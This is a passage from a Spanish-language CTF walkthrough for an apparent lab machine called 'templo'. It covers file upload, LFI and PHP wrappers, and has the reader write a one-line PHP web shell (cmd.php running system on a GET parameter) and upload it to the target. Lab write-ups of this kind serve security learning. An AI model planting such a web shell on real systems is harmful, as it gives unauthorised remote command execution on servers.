 <img src="/assets/images/THL-writeup-templo/Captura10.png">
</p>

Aunque no podremos aplicarle fuerza bruta, por lo que debemos buscar una forma de ganar acceso a la máquina.

<br>

<h2 id="Wrappers">Probando la Subida de Archivos y Obteniendo Código Fuente del index.php Usando LFI + PHP Wrappers</h2>

Vamos a subir una **WebShell** para ver si lo acepta.

Crea un archivo llamado **cmd.php** que tendrá este contenido:
```php
<?php
	system($_GET['cmd']);
?>
```

Y súbelo a la página:

<p align="center">
